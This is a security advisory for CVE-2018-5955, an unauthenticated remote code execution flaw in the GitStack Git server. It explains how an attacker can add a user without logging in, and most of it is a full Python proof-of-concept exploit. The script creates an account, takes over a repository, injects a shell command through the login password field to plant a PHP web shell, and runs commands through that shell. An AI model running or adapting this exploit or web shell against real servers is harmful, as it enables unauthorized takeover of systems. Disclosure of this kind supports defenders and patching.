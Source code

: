 ## Vulnerability Summary
The following advisory describes an unauthenticated action that allows a remote attacker to add a user to GitStack and then used to trigger an unauthenticated remote code execution.

GitStack is “a software that lets you setup your own private Git server for Windows. This means that you create a leading edge versioning system without any prior Git knowledge. GitStack also makes it super easy to secure and keep your server up to date. GitStack is built on the top of the genuine Git for Windows and is compatible with any other Git clients. GitStack is completely free for small teams.”

## Credit
An independent security researcher, Kacper Szurek, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We tried to contact GitStack since October 17 2017, repeated attempts to establish contact were answered, but no details have been provided on a solution or a workaround.

CVE: CVE-2018-5955

## Vulnerability details

User controlled input is not sufficiently filtered, allowing an unauthenticated attacker can add a user to GitStack server by sending the following POST request:

```
http://IP/rest/user/
data={'username' : username, 'password' : password}
```

Once the attacker has added a user to the server, he can enable the web repository feature.

Now the attacker can create a repository from remote and disable access to our new repository for anyone else.

In the repository the attacker is allowed to upload a backdoor and use it to execute code:

## Proof of Concept

```
import requests
from requests.auth import HTTPBasicAuth
import os
import sys

ip = '192.168.15.102'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

user_list = []

print "[+] Get user list"
r = requests.get("http://{}/rest/user/".format(ip))
try:
 user_list = r.json()
 user_list.remove('everyone')
except:
 pass

if len(user_list) > 0:
 username = user_list[0]
 print "[+] Found user {}".format(username)
else:
 r = requests.post("http://{}/rest/user/".format(ip), data={'username' : username, 'password' : password})
 print "[+] Create user"
 if not "User created" in r.text and not "User already exist" in r.text:
  print "[-] Cannot create user"
  os._exit(0)

r = requests.get("http://{}/rest/settings/general/webinterface/".format(ip))
if "true" in r.text:
 print "[+] Web repository already enabled"
else:
 print "[+] Enable web repository"
 r = requests.put("http://{}/rest/settings/general/webinterface/".format(ip), data='{"enabled" : "true"}')
 print "r: %s" % r
 if not "Web interface successfully enabled" in r.text:
  print "[-] Cannot enable web interface"
  os._exit(0)

print "[+] Get repositories list"
r = requests.get("http://{}/rest/repository/".format(ip))
repository_list = r.json()

if len(repository_list) > 0:
 repository = repository_list[0]['name']
 print "[+] Found repository {}".format(repository)
else:
 print "[+] Create repository"


r = requests.post("http://{}/rest/repository/".format(ip), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
if not "The repository has been successfully created" in r.text and not "Repository already exist" in r.text:
 print "[-] Cannot create repository"
 os._exit(0)

print "[+] Add user to repository"
r = requests.post("http://{}/rest/repository/{}/user/{}/".format(ip, repository, username))

if not "added to" in r.text and not "has already" in r.text:
 print "[-] Cannot add user to repository"
 os._exit(0)

print "[+] Disable access for anyone"
r = requests.delete("http://{}/rest/repository/{}/user/{}/".format(ip, repository, "everyone"))

if not "everyone removed from rce" in r.text and not "not in list" in r.text:
 print "[-] Cannot remove access for anyone"
 os._exit(0)

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST['a']); ?>" > c:GitStackgitphpexploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```